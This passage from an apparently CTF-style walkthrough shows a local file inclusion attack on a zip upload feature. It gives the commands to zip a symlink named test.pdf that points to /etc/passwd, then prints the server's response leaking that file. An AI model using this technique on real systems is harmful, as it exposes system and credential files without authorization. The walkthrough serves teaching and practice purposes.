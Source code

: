 
<h2>Zip LFI</h2>

This whole excursion wasn't for naught, I now understood most of the logic behind the uploads. It can accept a zip file, which needs to contain a file with a pdf extenstion, which is then locally readable after upload. 

Enter our friend symlinks, which allow me to upload a file that links to a local resource and gives me LFI. I'll make a test payload to check the vulnerability but I am fairly certain if an empty pdf suffices this should bypass any filters. 

```bash
ln -s ../../../../../../../../../../../etc/passwd test.pdf
zip -r --symlinks test.zip test.pdf
```

After the upload the file itself attempts to load the pdf, but the response contains the referenced file:

```
HTTP/1.1 200 OK
Date: Fri, 15 Sep 2023 23:45:36 GMT
Server: Apache/2.4.54 (Ubuntu)
Last-Modified: Fri, 15 Sep 2023 23:45:23 GMT
ETag: "56d-6056e62e411f6"
Accept-Ranges: bytes
Content-Length: 1389
Connection: close
Content-Type: application/pdf


root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

